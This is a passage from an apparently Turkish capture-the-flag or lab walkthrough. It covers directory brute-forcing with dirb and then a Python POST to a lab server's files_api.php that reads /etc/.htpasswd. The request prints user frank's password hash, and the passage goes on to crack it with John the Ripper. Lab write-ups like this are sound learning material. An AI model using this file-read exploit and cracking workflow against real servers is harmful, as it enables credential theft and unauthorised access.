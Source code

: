 Benim daha önceki yaptığım `dirb` taramalarında kullandığım dirb programının varsayılan wordlisti idi. Bu taramada [şu adresteki](https://www.netsparker.com/blog/web-security/svn-digger-better-lists-for-forced-browsing/) wordlistler ile daha fazla sayfa ve dizin araması yaparak taramayı geliştirdim. Bu sayede gödümden kaçan bazı önemli sayfaları buldum.

Bu sayfada "frank" kullanıcısına ait `.htpasswd` dosyasındaki kaydına ulaştım. `.htpasswd` dosyası apache sunucularda kullanıcıların yetkilendirilmesi ve doğrulanması için kullanılan bir dosyadır. Kullanıcı adları ve parolaların hashlenmiş hallerinin kayıtlarını tutar. İşte bende bu sayfada frank kullanıcısının `.htpasswd` dosyasındaki kaydına ulaştım.

Aslında biz `.htpasswd` dosyasına files_api.php sayfası üzerinden de ulaşabilirdik. aynen şu şekilde:

```text
root@kali:~# python3
Python 3.6.7 (default, Oct 22 2018, 11:32:17)
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> r = requests.post("http://192.168.56.102:8011/api/files_api.php", data={"file": "/etc/.htpasswd"})
>>> print(r.text)

<head>
  <title>franks website | simple website browser API</title>
</head>

frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0

>>>
```

Şu andan itibaren yapmamız gereken şey şifreyi kırmak. Bu işlem içinde `rohnny` (john the ripper gui) aracını kullanabiliriz.

`frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0` satırını bir dosyaya kaydettikten sonra dosyayı johnny ile açıyoruz. ardından şifre kırma işlemini başlatmamız yeterli.
